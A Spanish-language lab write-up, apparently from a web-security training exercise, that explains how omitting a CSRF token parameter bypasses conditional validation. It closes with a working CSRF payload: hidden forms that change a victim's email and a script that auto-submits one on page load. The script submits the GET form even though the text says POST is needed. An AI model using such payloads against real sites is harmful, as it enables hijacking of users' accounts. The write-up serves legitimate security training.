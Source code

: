 En esta clase nos enfrentamos a un escenario de validación condicional del token CSRF, donde la protección solo entra en juego si el parámetro csrf está incluido en la solicitud.

Mediante el análisis de las respuestas del servidor en Burp Suite, observamos que cuando el token es incorrecto, la solicitud es rechazada, pero si directamente eliminamos el parámetro, la validación desaparece y la operación se ejecuta correctamente.

Aprovechamos este fallo lógico para construir un ataque CSRF que omite por completo el campo csrf, lo cual permite modificar la dirección de correo electrónico del usuario víctima sin necesidad de conocer ni manipular un token válido.

Este caso demuestra un error de implementación típico: asumir que la ausencia de un token equivale a una solicitud segura, dejando expuesta la aplicación ante ataques triviales.

Solucion
Basicamente se aplica lo mismo solo que cambiamos de GET a POST
<form class="login-form" name="change-email-form" action="https://0a4d00880366100380e603ee00cb0090.web-security-academy.net/my-account/change-email" method="GET">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<form class="login-form" name="change-email-form" action="https://0aa0000a030520418001c13b008a008e.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
        document.forms[0].submit();
</script>
